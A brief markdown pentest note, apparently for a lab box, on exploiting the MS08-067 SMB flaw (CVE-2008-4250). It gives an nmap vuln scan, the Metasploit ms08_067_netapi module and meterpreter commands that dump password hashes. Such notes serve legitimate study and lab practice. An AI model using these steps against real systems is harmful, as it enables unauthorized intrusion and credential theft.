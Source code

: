# smb-vuln-ms08-067 | CVE-2008-4250 | NetAPI

## Metasploit

1. Check if target is vulnerable
   
        nmap --script vuln -p 137,139,445 10.10.10.4

2. Use Metasploit module `windows/smb/ms08_067_netapi` to obtain **meterpreter** shell access

        getuid
        run post/windows/gather/hashdump
        ipconfig

## References

* https://ivanitlearning.wordpress.com/2019/02/24/exploiting-ms17-010-without-metasploit-win-xp-sp3/
* https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2008-4250
* https://dzone.com/articles/exploiting-windows-xp-using-kali-linux
* https://www.offensive-security.com/metasploit-unleashed/meterpreter-basics/